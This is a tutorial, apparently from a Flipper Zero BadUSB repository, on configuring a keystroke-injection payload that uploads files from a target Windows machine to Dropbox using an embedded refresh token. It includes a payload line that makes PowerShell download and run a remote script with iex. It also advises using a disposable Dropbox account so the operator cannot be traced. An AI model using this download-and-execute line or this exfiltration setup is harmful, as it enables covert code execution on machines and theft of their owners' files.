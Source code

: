 # Dropbox Configuration for Uploading files with BadUSB 

This tutorial will explain how to create a BadUSB payload that is capable of uploading files to Dropbox by **automatically** generating temporary Access Tokens to be used on demand.

It uses the Dropbox OAuth 2 API to create a **permanent Refresh Token** that is capable of creating **temporary Access Token**.

This was inspired by the [ADV-Recon](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/tree/main/Payloads/Flip-ADV-Recon) script by [I-Am-Jakoby](https://github.com/I-Am-Jakoby).

**NOTE**: be aware that if your payloads/scripts are compromised, it might be possible to identify the original Dropbox account. So we recommend using an anonymous or disposable Dropbox account to operate everything.

## Motivation

Until mid 2021, Dropbox allowed to create an **"Access Token"** that never expired. With a token like that, you could simply hardcode it on your script and the Dropbox upload would work. Since then, the Access Token that you create in the Apps Settings pages will expire after 4 hours. This requires that you keep recreating Dropbox tokens every time you want to use a payload.

By using Dropbox's OAuth 2.0 API, this tutorial will demonstrate how to make an script that is capable of automatically generating Access Tokens on demand, so that once the script is written you don't have to keep updating the credentials.

## Tutorial

### 1 - Create a Dropbox Application

First we will create a personal Dropbox application that will have permissions onlly to _upload_ files to a _specific folder_.

The stricter permission settings is recommended, because it will limit the access in case of the keys/tokens/secrets are, somehow, compromised/leaked. For instance, if the key had access to _read_ and to _any_ folder of the account, one could download all the files in the Dropbox account that you will be using.

To create an application like that, do the following:
 1. Go to the [Dropbox New App Creation](https://www.dropbox.com/developers/apps/create/) page. Fill the information as following:
   - API: Scoped access
   - Access Type: App folder (
   - Name: <any> (it should be exclusive)
 2. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 3. Go to the "Permissions" tab of your app.
 4. Mark these two permissions:
   - `files.metadata.write`
   - `files.content.write`
 5. Click on the "Submit" button to update the app's permissions.

### 2 - Setup the Key of the Dropbox Application

Now we will manually execute an OAuth 2.0 authentication flow to create some keys for us. 
We will create a virtually permanent "Refresh Token" which will allow our script to automatically generate temporary "Access Token" every time it executes the payload.

 1. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 2. Go to the "Settings" tab of your app.
 3. Copy and write down your "App key" (`<APP_KEY>`) and "App secret" (`APP_SECRET`).
 4. Open a web browser and log into your Dropbox account (if it is not already).
 5. Create an URL with your "App key" and open it in your browser:
```
https://www.dropbox.com/oauth2/authorize?client_id=<APP_KEY>&token_access_type=offline&response_type=code
```
 6. Click on `Continue` to indicate that you are aware that you are connecting to a development application.
 7. Click on `Allow` to allow that the application have the mentioned permissions.
 8. Copy and write down the "Authorization code" (`<AUTHORIZATION_CODE>`) shown in the box.
 9. Make a HTTP request to retrieve a refresh token: 
```
curl https://api.dropbox.com/oauth2/token \
    -d code=<AUTHORIZATION_CODE> \
    -d grant_type=authorization_code \     
    -u <APP_KEY>:<APP_SECRET>
```
 10. Copy and write down write down the "Refresh token" (`<REFRESH_TOKEN>`) from the `"refresh_token"` key of the JSON response.

As long as your Dropbox account keeps your App in the allow list, the "Refresh token" will be valid. 

### 3 - Prepare the PowerShell script

The `.ps1` file is the PowerShell script that you want to run. It will create a local file, then upload it to Dropbox. To configure it do the following:

 1. Edit your `.ps1` file to specify the secrets you have copied and written from the previous step:
```
$MyAppKey       = "<APP_KEY>"
$MyAppSecret    = "<APP_SECRET>"
$MyRefreshToken = "<REFRESH_TOKEN>"
```
 2. Upload the `.ps1` file to Dropbox (it can be stored in any folder, not necessarily inside the app's folder).
 3. Locate the file on the Dropbox web interface, right click on it, and click on the "Copy link" option.
 4. Copy and write down the URL, replacing the `?dl=0` in the end to `?dl=1` if necessary. Let's call it `<SCRIPT_DOWNLOAD_URL>`. For example:
```
https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1
```

Like previously mentioned, the "Refresh Token" will not expire, so you can keep your script unchanged, and every time it runs it will create and use a fresh and temporary "Access Token".

### 4 - Prepare the BadUSB payload

The `.txt` file is the BadUSB payload that will actually send the keystrokes. It will call the Windows run box and execute the remote PowerShell script. You have to specify the download URL of the PowerShell script inside the payload. Do the following:

 1. Edit your `.txt` file to put the download URL (`<SCRIPT_DOWNLOAD_URL>`):
```
ALTSTRING cmd /c powershell iex ((New-Object System.Net.WebClient).DownloadString('https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1'))
```
 2. Put the `.txt` file inside the `badusb` folder of the Flipper's SD Card.

## Reference
 - https://www.dropbox.com/developers/documentation/http/documentation
 - https://developers.dropbox.com/oauth-guide

